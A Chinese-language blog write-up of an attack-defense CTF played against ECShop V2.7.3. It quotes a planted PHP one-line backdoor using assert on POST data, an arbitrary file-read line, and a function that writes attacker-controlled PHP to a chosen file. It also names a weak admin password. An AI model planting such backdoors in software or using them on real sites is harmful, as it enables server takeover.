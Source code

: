 ```yaml
---
layout: post
title: 线下AWD被打指南
subtitle: 
author: Coink
date: 2018-05-02
---
```




# 概

前几天跑去玩了玩安恒的线下AWD，被很多大佬吊打（物理）。

![8849DB6CD4B9AEF5EED512322700E7A1.jpg](https://i.loli.net/2019/06/03/5cf48131d9d2363717.jpg)



简单分析一下本次AWD的内容，顺便总结一下AWD要注意的一些事项。这次是比较基础的AWD，没有pwn，只有Web。

# Start

比赛开始拿到自己机器，不是root权限，写文件有限制。Web服务是ECShop V2.7.3，AngelSword里查了一下，发现两个漏洞，但是都没有成功复现：

![poc.png](https://i.loli.net/2018/05/05/5aed16e2be14f.png)

己方服务器ip是10.50.20.2，推测出所有靶机地址，10.50.[1-37].2，10.50.0.2可能为NPC机。

提交和获取Flag都需要带上团队Token：

```url
//获取flag
http://10.0.1.2?token=XXXXXXXX
```

```url
//提交flag
https://192.168.37.180/match/WAR20/oapi?atn=answers&token=XXXXXXXX&flag=flag{}
```

赶紧把var/www/html拷贝了一份到本地，（由于经验不足，没有想办法备份数据库，导致后面的惨剧 ，嘤）同时打开D盾扫Shell，主办方的shell藏得挺好的，D盾扫不到。

waf装上去之后服务瞬间爆炸，赶紧恢复备份，还好check是从20分钟开始的，没有被扣分。

本次比赛时间很紧，总共只有3h。前半个多小时大家和平发育，除了几个队伍可能自己玩坏了自己服务，或者战略关闭服务器之外，没有任何一支队伍成功攻击。

# php一句话

40分钟时，主办方给出第一个提示：

![tip1.png](https://i.loli.net/2018/05/05/5aed1c57651ca.png)

dwt是未渲染的模板文件，跟进发现：

```html
<div class="con">{:assert($_POST[1])}
...
</div>
```

删掉即可。

# 文件读取

1h多时主办方直接在tips里给了exp...

![exp1.png](https://i.loli.net/2018/05/05/5aed3b5f2109b.png)

定位:

![sr32.png](https://i.loli.net/2018/05/05/5aed3b8488af7.png)

```php
switch ($row['media_type']) {
	//...
	case 4: // url
		$ads[] = file_get_contents($_POST['url']);
}
```

发现任意文件读取，因为参数本身就是url，且不清楚check的规则是什么，暂且直接删掉。



# new exp

距离上次exp不到10分钟，又给了一个攻击流量，漏洞就是第一个放出来的auction_list模板内的一句话。

![exp.png](https://i.loli.net/2018/05/05/5aed3dd28672b.png)

删掉那句后门就行了。



# 文件写入

新提示

![write.png](https://i.loli.net/2018/05/05/5aed3ef499a3b.png)

之前在AngelSword见到了uc的注入，但是不是mobile下的，对比mobile下和api下的uc.php：

![sp180505_132349.png](https://i.loli.net/2018/05/05/5aed3ff377dcc.png)

发现多了一个writesth函数：

```php
function writesth($get, $post){
    $cachefile = $this->appdir .$get['name'];
    $fp = fopen($cachefile, 'w');
    $s = "<?php\r\n";
    $s .= $get['content'];
    fwrite($fp, $s);
    fclose($fp);
    return API_RETURN_SUCCEED;
}
```

name和content均可控，直接写入即可，注意写入权限。

# 惨遭删库

最后一小时主办方给出最后一个提示

![sp180505_133044.png](https://i.loli.net/2018/05/05/5aed418e963cd.png)

但是这时候我们发现自己的网站凉了...

![惨遭删库.png](https://i.loli.net/2018/05/05/5aed4219cf905.png)

心里咯噔一下，数据库炸了？检查一下数据库发现...给人删库了...没备份数据库...naive了呀...目测是排名跟我们相近的队伍发现了SQL注入，把做了防御，他们队拿不到分的机器给炸了，一方面减缓高分队伍得分速度，另一方面让我们每5分钟扣100分。当时真的是想掏个emp啥的出来来一发无差别攻击...

现在回想起来，如果当时是有权限删除data目录文件的话，删掉lock文件，就可以重新安装cms，或者找到structure.sql也能恢复数据库了，当时手忙脚乱的没反应过来，果然还是太菜...

BTW，看了@一叶飘零 的wp，得知弱口令是admin888，发现我们字典里刚好没有...

复现环境之后再找找其他洞，找到会更新（2019.06.03更新："咕"）。